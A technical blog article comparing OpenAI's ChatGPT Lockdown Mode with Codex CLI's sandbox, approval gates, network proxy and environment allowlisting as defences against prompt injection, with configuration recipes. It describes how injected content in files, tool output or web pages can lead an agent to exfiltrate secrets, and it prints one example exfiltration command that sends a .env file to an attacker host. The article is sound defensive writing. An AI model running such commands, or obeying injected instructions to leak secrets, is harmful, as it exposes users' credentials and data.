


# Lockdown Mode, Elevated Risk Labels, and Why Codex CLI Was Already Locked Down: Prompt Injection Defence Across the OpenAI Surface


---

On 5 June 2026 OpenAI began rolling out Lockdown Mode to all logged-in ChatGPT users, extending a feature that originally launched for Enterprise and Edu accounts on 13 February 2026.[^1] The announcement attracted immediate attention from the security community — Simon Willison called it "the single most important security feature OpenAI has shipped" — and raised a question every Codex CLI developer should be able to answer: *does my local agent have equivalent protection, or am I running with the front door open?*

The short answer is that Codex CLI's default configuration already implements the same defensive principle — network isolation — and layers additional protections that Lockdown Mode cannot provide. This article maps OpenAI's prompt-injection defence architecture across both surfaces, highlights the gaps that remain, and provides concrete configuration recipes for teams that want to maximise coverage.

---

## The Lethal Trifecta and Why It Matters

Willison's "lethal trifecta" model[^2] identifies three conditions that together make prompt injection dangerous:

1. **Access to private data** — the agent can read secrets, source code, or business documents.
2. **Exposure to untrusted content** — the agent processes input it does not control (web pages, uploaded files, MCP tool output).
3. **An exfiltration channel** — the agent can send data to an external destination (HTTP requests, rendered markdown images, browser navigation).

Remove any one leg and the attack collapses. Lockdown Mode targets leg three by deterministically disabling outbound network capabilities. Codex CLI's sandbox targets all three legs simultaneously through OS-level enforcement.



---

## What Lockdown Mode Actually Does

Lockdown Mode is a deterministic toggle — it does not rely on AI evaluation, which makes it more robust than model-level guardrails.[^2] When enabled, it restricts the following ChatGPT capabilities:

| Capability | Default | Lockdown Mode |
|---|---|---|
| Live web browsing | Enabled | Disabled — cached content only |
| Deep Research | Enabled | Disabled |
| Agent mode actions | Enabled | Disabled |
| File downloads | Enabled | Disabled |
| Web-derived images | Some enabled | Restricted |

Critically, Lockdown Mode does *not* prevent prompt injections from appearing in content ChatGPT processes. An injection embedded in a cached web result or an uploaded file can still alter model behaviour.[^1] What it prevents is the *exfiltration step* — the injected instructions cannot instruct the model to phone home because the network channel is closed.

### Who Should Use It

OpenAI positions Lockdown Mode for "a small set of highly security-conscious users — such as executives or security teams at prominent organisations."[^1] In practice, any user who routinely pastes sensitive documents into ChatGPT conversations and also uses web browsing or connected apps should enable it.

---

## Elevated Risk Labels

Alongside Lockdown Mode, OpenAI introduced Elevated Risk labels — visual indicators that appear in the ChatGPT interface when a session enters a state that increases prompt-injection exposure.[^3] Labels appear in three contexts:

- **External Data Access** — the model reads emails, repositories, or proprietary data.
- **Autonomous Actions** — an agent performs actions on the user's behalf.
- **Third-Party Integrations** — custom GPTs or plugins connect to unverified APIs.

These labels also apply to Codex when accessed through the ChatGPT app sidebar.[^3] OpenAI describes them as temporary — they will be removed "once security advancements sufficiently mitigate the associated risks."[^3]

---

## How Codex CLI Implements the Same Protections — and More

Codex CLI's security model is sandbox-first rather than opt-in. The default configuration (`workspace-write` sandbox, `on-request` approval policy) already blocks outbound network access without requiring the user to enable a special mode.[^4]

### Layer 1: OS-Level Sandbox

The sandbox is enforced by the operating system, not by the model:

| Platform | Mechanism | Isolation Level |
|---|---|---|
| macOS | Seatbelt (`sandbox-exec`) | Kernel-level policy enforcement[^4] |
| Linux | Bubblewrap + seccomp | Namespace isolation + syscall filtering[^4] |
| Windows | Restricted tokens + ACLs / WSL2 | Process-level access control[^5] |

This is a harder boundary than Lockdown Mode's application-layer restrictions. A prompt injection that convinces the model to run `curl https://evil.com/?data=$(cat .env)` will fail at the OS level before the request leaves the machine.

### Layer 2: Web Search Isolation

Codex CLI defaults to `web_search = "cached"`, which routes all search queries through an OpenAI-maintained index rather than fetching live pages.[^4] This is functionally identical to Lockdown Mode's cached-browsing restriction, but it is the *default* rather than an opt-in.

```toml
# config.toml — default (no change needed)
web_search = "cached"

# Explicitly disable for air-gapped CI
web_search = "disabled"

# Enable live search with domain allowlist
web_search = "live"
[features.network_proxy]
enabled = true
[features.network_proxy.domains]
"docs.python.org" = "allow"
"*.openai.com" = "allow"
"*" = "deny"
```

When Codex CLI is launched with `--dangerously-bypass-approvals-and-sandbox` (the `--yolo` flag), web search automatically switches from cached to live mode — a deliberate design choice that ensures the security downgrade is visible.[^6]

### Layer 3: Approval Gates

Codex CLI's approval policy provides a human-in-the-loop checkpoint that Lockdown Mode lacks entirely. The auto-review agent evaluates pending actions for four risk categories before execution:[^4]

1. Data exfiltration attempts
2. Credential probing
3. Destructive actions
4. Permission-weakening patterns

```toml
# Enable auto-review for unattended sessions
approval_policy = "on-request"
approvals_reviewer = "auto_review"
```

### Layer 4: Network Proxy and DNS Rebinding Protection

For sessions that *do* require network access (dependency installation, API testing), Codex CLI provides a network proxy with domain allowlisting, automatic DNS rebinding checks, and blocking of resolved hostnames that point to private IP ranges.[^4] This is a capability Lockdown Mode cannot offer because it simply disables the network entirely.

### Layer 5: Protected Paths

Regardless of sandbox mode, Codex CLI marks `.git`, `.agents/`, and `.codex/` directories as read-only.[^4] An injection that attempts to rewrite AGENTS.md or tamper with git history will fail silently. Lockdown Mode has no equivalent — ChatGPT conversations have no concept of filesystem-level path protection.

---

## Where Codex CLI Is Not Protected

No security model covers every vector. Codex CLI developers should be aware of the following residual risks:

| Risk | Codex CLI Mitigation | Gap |
|---|---|---|
| Injections in uploaded files | Approval gate + auto-review | Model behaviour can still be altered before exfiltration is attempted |
| Injections in MCP tool output | Destructive-annotation enforcement | Non-destructive tool calls with side effects may not trigger approval[^4] |
| Cached web search injections | Pre-indexed content reduces risk | Not impossible — cached pages could contain injections[^1] |
| Environment variable leakage | `env_allowlist` in config.toml | Requires explicit configuration — not blocked by default ⚠️ |

The environment variable gap is worth emphasising. By default, Codex CLI inherits the shell environment. A prompt injection that reads `$AWS_SECRET_ACCESS_KEY` via an allowed tool call can succeed even with network access disabled, because the data enters the model's context window. Configure `env_allowlist` to restrict inheritance:

```toml
# Allowlist only safe variables
env_allowlist = ["HOME", "PATH", "LANG", "EDITOR", "TERM"]
```

---

## The Defence-in-Depth Stack

Combining all available protections across both surfaces yields a five-layer defence:



Red indicates ChatGPT-only protections. Green indicates Codex CLI defaults. Yellow indicates protections that require explicit configuration.

---

## Practical Configuration Recipes

### Maximum Security (Air-Gapped CI)

```toml
sandbox_mode = "read-only"
approval_policy = "never"
web_search = "disabled"
env_allowlist = ["HOME", "PATH", "LANG"]
```

### Secure Interactive Development

```toml
sandbox_mode = "workspace-write"
approval_policy = "on-request"
approvals_reviewer = "auto_review"
web_search = "cached"
env_allowlist = ["HOME", "PATH", "LANG", "EDITOR", "TERM", "CODEX_HOME"]
```

### Research Session with Controlled Network

```toml
sandbox_mode = "workspace-write"
approval_policy = "on-request"
web_search = "live"

[features.network_proxy]
enabled = true

[features.network_proxy.domains]
"docs.python.org" = "allow"
"*.openai.com" = "allow"
"registry.npmjs.org" = "allow"
"*" = "deny"
```

---

## Key Takeaways

1. **Lockdown Mode and Codex CLI's sandbox solve the same problem** — blocking the exfiltration leg of the lethal trifecta — but Codex CLI does it by default, at the OS level, and layers additional protections on top.

2. **Lockdown Mode's existence confirms the risk.** As Willison notes, its release means OpenAI acknowledges that ChatGPT's default configuration does not provide robust protection against determined data exfiltration.[^2] Codex CLI's sandbox-first design took the opposite approach from day one.

3. **Neither surface is fully protected.** Prompt injections can still alter model behaviour even when exfiltration is blocked. The residual risk is content manipulation — the model doing the wrong thing rather than leaking data.

4. **Configure `env_allowlist`.** This is the single highest-impact hardening step most Codex CLI users have not taken. It costs nothing in usability and closes a real gap.

5. **Elevated Risk labels apply to Codex-in-ChatGPT sessions.** If your workflow involves the ChatGPT sidebar for Codex cloud tasks, pay attention to the labels — they indicate when the session has crossed into a higher-risk state.

---

## Citations

[^1]: OpenAI, "Introducing Lockdown Mode and Elevated Risk labels in ChatGPT," 13 February 2026, updated 5 June 2026. [https://openai.com/index/introducing-lockdown-mode-and-elevated-risk-labels-in-chatgpt/](https://openai.com/index/introducing-lockdown-mode-and-elevated-risk-labels-in-chatgpt/)

[^2]: Simon Willison, "OpenAI Help: Lockdown Mode," 5 June 2026. [https://simonwillison.net/2026/Jun/5/openai-help-lockdown-mode/](https://simonwillison.net/2026/Jun/5/openai-help-lockdown-mode/)

[^3]: OpenAI, "Lockdown Mode," OpenAI Help Center, accessed 6 June 2026. [https://help.openai.com/en/articles/20001061-lockdown-mode](https://help.openai.com/en/articles/20001061-lockdown-mode)

[^4]: OpenAI, "Agent approvals & security," Codex Developer Documentation, accessed 6 June 2026. [https://developers.openai.com/codex/agent-approvals-security](https://developers.openai.com/codex/agent-approvals-security)

[^5]: OpenAI, "Codex CLI on Windows: Native Sandbox, WSL Integration, and the Elevated Security Model," Codex CLI v0.137 documentation, accessed 6 June 2026. [https://developers.openai.com/codex/cli/reference](https://developers.openai.com/codex/cli/reference)

[^6]: OpenAI, "Config basics," Codex Developer Documentation, accessed 6 June 2026. [https://developers.openai.com/codex/config-basic](https://developers.openai.com/codex/config-basic)
